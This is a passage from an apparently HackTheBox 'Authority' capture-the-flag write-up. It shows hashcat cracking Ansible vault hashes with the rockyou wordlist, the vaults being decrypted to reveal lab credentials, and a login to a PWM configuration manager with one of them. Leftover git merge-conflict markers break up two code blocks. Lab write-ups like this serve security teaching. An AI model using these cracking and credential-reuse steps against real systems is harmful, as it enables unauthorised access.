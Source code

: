 ### Hashcat

Now, we can use hashcat to crack all the hashes.

<<<<<<< HEAD
```
=======
```bash
>>>>>>> d0813a4 (Updated posts)
$hashcat ansible_hashes /usr/share/wordlists/rockyou.txt --user

$ansible$0*0*15c849c20c74562a25c925c3e5a4abafd392c77635abc2ddc827ba0a1037e9d5*1dff07007e7a25e438e94de3f3e605e1*66cb125164f19fb8ed22809393b1767055a66deae678f4a8b1f8550905f70da5:!@#$%^&*
$ansible$0*0*2fe48d56e7e16f71c18abd22085f39f4fb11a2b9a456cf4b72ec825fc5b9809d*e041732f9243ba0484f582d9cb20e148*4d1741fd34446a95e647c3fb4a4f9e4400eae9dd25d734abba49403c42bc2cd8:!@#$%^&*
$ansible$0*0*c08105402f5db77195a13c1087af3e6fb2bdae60473056b5a477731f51502f93*dfd9eec07341bac0e13c62fe1d0a5f7d*d04b50b49aa665c4db73ad5d8804b4b2511c3b15814ebcf2fe98334284203635:!@#$%^&*

```

<<<<<<< HEAD
```
=======
```bash
>>>>>>> d0813a4 (Updated posts)
$cat ldap_admin_password | ansible-vault decrypt
Vault password: 
Decryption successful
DevT3st@123

$cat pwm_admin_login | ansible-vault decrypt
Vault password: 
Decryption successful
svc_pwm

$cat pwm_admin_password | ansible-vault decrypt
Vault password: 
Decryption successful
pWm_@dm!N_!23
```

### PWN Access

Since we have the credentials we can try to login to the website with it. The password `pWm_@dm!N_!23` works to login to the configuration manager.

### Configuration manager

![alt text](/assets/Hackthebox/Authority/image-6.png)
